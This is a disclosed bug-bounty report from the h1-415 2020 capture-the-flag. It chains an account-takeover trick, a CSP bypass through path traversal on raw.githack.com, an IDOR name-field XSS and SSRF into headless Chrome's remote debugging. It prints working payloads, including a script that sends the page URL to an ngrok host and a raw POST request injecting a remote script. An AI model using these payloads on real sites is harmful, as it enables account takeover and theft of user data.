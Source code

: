 # [h1-415 2020] SSRF in a headless chrome with remote debugging leads to sensible information leak

## Report Details
- **Report ID**: 781295
- **URL**: https://hackerone.com/reports/781295
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-01-23T06:37:43.199Z
- **Disclosed**: 2020-02-04T07:17:43.082Z

## Reporter
- **Username**: d1r3wolf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-ctf

## Vulnerability Information
## Summary:
Converter is using headless chrome with remote debbuging by rendring a page where we have out name, with which we can get xss leads to ssrf
By using the remote debbugging with that ssrf we can grab the info all tabs in that chrome wher we can get even the flag document.

## Steps To Reproduce:

  1. Using QR code generator (at recovery to) to take over account (jobert@mydocz.cosmic)
  2. Using xss in support by bypassing the csp using the github account , simple by backtracking in the url
  3. At the suport review, there is a idor we can change anyones name , with out character stripping (<>{}) . so we can change our name to tigger xss in pdf converter
  4. in the pdf convertor, ssrf to access the remote debbugging to leak the info

## Breif
 1. Using QR code generator (at recovery to) to take over account (jobert@mydocz.cosmic)

    While return a QR after registering it is stripping the <> chars , which help's to create recovery qr for anyones account.
we cant create a account with jobert@mydocz.cosmic mail
but we can create account with jobert@mydocz.cosmic<><> mail
after creates it returns the recover code by stripping <> means recovery code of jobert@mydocz.cosmic

 2. Using xss in support by bypassing the csp using the github account , simple by backtracking in the url
     
     After getting jobert's account we can enter the support channel, where if we gave rating 1 , our chat we be reviewed. we have xss in messages but we need to bypass the csp.
```Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self' https://raw.githack.com/mattboldt/typed.js/master/lib/; img-src data: *```
csp is allowing the script from https://raw.githack.com/mattboldt/typed.js/master/lib/, here  we can backtrack any url upto its root(/) and github is a open source.
So we can include js file in our github account using backtracking,. csp bypassed : )
The message
```html
<script type="text/javascript" src="https://raw.githack.com/mattboldt/typed.js/master/lib/typed.js/..%252f..%252f..%252f..%252f..%252fAjay-Aj-00/Test/master/final.js"></script>
```
js file : 
```js
window.location = "https://8a7b2695.ngrok.io/record-data?name=path&data="+btoa(window.location.href)
```
as that support review link does need any login or localhost . so we can access it from outside. so grabbing that link.


 3. At the suport review, there is a idor we can change anyones name , with out character stripping (<>{}) . so we can change our name to tigger xss in pdf converter
   Support provies updating the user along with reviewsing chat
   There is idor at updating user's name (with out sanitizing <> chars) which is used at convertor
```
POST /support/review/efe74fb38a69eae74f733a3e035edf33ed14f34af0755495ff6abae219155587 HTTP/1.1
Host: h1-415.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://h1-415.h1ctf.com/support/review/88cdddff2719525210a5cdc95f3cf7f14c83f6e44caf87f5ec4255a9f69e35eb
Content-Type: application/x-www-form-urlencoded
Content-Length: 135
Origin: https://h1-415.h1ctf.com
Connection: close
Cookie: _csrf_token=46cb8a62c3c99b5d5a2c045baecf9039216a3cee; session=eyJfY3NyZl90b2tlbiI6IjQ2Y2I4YTYyYzNjOTliNWQ1YTJjMDQ1YmFlY2Y5MDM5MjE2YTNjZWUifQ.Xikx5g.KDxEtKJxN1cDleoMbr6adoqpgCs
Upgrade-Insecure-Requests: 1
.
name=<script src="https://8a7b2695.ngrok.io/static/js/new.js"></script>&user_id=18&_csrf_token=46cb8a62c3c99b5d5a2c045baecf9039216a3cee
```

## Impact

Leaking sensitive information ofusers.

## Attachments
- flag.pdf
